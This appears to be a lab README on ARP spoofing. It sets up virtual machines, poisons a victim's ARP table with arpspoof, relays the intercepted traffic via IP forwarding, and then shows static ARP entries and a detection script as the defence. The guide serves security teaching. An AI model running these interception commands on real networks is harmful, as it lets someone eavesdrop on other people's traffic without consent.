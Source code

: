 # 🔬 Lab 1: ARP Spoofing Simulation

This lab demonstrates how ARP Spoofing works and how to defend against it.

---

## ⚙️ Requirements
- 2 or 3 Virtual Machines:
  - Attacker: Kali Linux / Parrot OS
  - Victim: Ubuntu / Windows
  - Gateway: Router VM or real home router
- Same network (VirtualBox "Internal Network" / VMware "Host-Only" / GNS3)

---

## 🔹 Step 1: Identify IPs and MACs
On each VM:
    $bash
    ifconfig       # check IP address
    arp -a         # check ARP table


Example:

Victim: 192.168.1.10 → MAC 66:77:88:99:AA:BB

Gateway: 192.168.1.1 → MAC 00:11:22:33:44:55

---

## 🔹 Step 2: Launch ARP Spoof Attack

On attacker (Kali/Parrot):
    $bash
    sudo arpspoof -i eth0 -t 192.168.1.10 192.168.1.1

This poisons the ARP table of the victim.

If you want to relay traffic so the victim still has internet:
    $bash
    echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

---

## 🔹 Step 3: Verify the Attack
On victim:
    $bash
    arp -a

➡️ You will see the gateway IP now pointing to the attacker's MAC.

Try pinging or browsing — traffic is intercepted.

---

## 🔹 Step 4: Defense / Mitigation
1. Static ARP entry on victim:
    $bash
    sudo arp -s 192.168.1.1 00:11:22:33:44:55

2. Run detection script (from scripts/arp_defense.py):
    python3 arp_defense.py

You should see alerts if spoofing occurs.


✅ Lab Summary
- Learned how ARP Spoofing poisons ARP tables.
- Simulated the attack with arpspoof.
- Defended using static ARP + detection script.